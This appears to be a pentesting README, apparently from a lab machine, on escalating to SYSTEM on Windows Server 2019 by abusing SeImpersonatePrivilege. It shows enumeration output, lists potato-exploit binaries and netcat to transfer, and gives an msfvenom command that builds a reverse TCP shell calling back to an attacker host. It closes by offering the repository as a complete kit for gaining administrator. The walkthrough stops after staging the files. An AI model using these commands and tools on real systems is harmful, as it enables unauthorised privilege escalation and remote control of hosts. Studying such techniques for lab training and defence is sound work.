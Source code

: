 ### SeImpersonatePrivilege
How to exploit SeImpersonatePrivilege with different ways, it is also gud to check what version of operating system were dealing with
```
C:\Users\Public\Desktop>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 4 Hotfix(s) Installed.
```

### Assume you have exploi a windows operating system and you run the **whoami/priv** you find that you can exploit to **nt authority\system**  throught tokenImpersonate, there many ways do this but when doing pentesting, in this blog am going to upload every technique i use when i meet this enviroment when approaching a target.

## Take an example
```
C:\Users\Public\desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Public\desktop>
```

From the above scenarion there many ways you can try to exploit this but actually i am making this one so i can easy simplfy my way in with this easy way to become administrator.

## first thing were gonna need is transfering the following binaries into our target machine 
1. nc.exe (specific for windows)
2. RoguePotato.exe
3. JuicyPotato
4. payload with msfvenom specific for windows(msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe)
5. PrintSpoofer

```
C:\Users\Public\desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Users\Public\desktop

04/13/2024  08:59 AM    <DIR>          .
04/13/2024  08:59 AM    <DIR>          ..
04/13/2024  07:23 AM    <DIR>          Microsoft
04/13/2024  06:59 AM            59,392 nc.exe
04/13/2024  07:23 AM           347,648 potato.exe
04/13/2024  08:59 AM           159,232 rogue.exe
04/13/2024  07:28 AM             7,168 shell.exe
04/13/2024  08:39 AM            27,136 spoofer.exe
02/20/2020  03:14 AM             1,191 TeamViewer 7.lnk
               7 File(s)        601,801 bytes
               3 Dir(s)  13,362,515,968 bytes free
```
Everything required is available here no need to search for them online anymore, just this repostory is enough to go for root/administrator


